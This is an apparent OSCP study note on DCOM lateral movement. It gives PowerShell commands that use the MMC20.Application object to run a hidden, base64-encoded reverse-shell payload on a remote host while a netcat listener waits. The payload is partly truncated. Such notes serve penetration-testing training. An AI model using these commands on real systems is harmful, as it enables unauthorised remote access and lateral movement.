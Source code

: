 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/6-dcom/"}
---
```


----------
- Distributed Component Object Model
- Originally a system for creating software components that interact with each other
- Now extended for interaction between computers over a network
- Performed over RPC on TCP port 135
- Requires local administrator access
- Collection of DCOM lateral movement techniques: https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### DCOM MMC Reverse Shell:
1. Generate encoded Powershell payload using python script.
2. Start elevated powershell.
3. Initiate MMC 2.0 application and set target ip:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target-ip>"))
```
2. Start netcat listener.
3. Execute the application and specify process:
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```
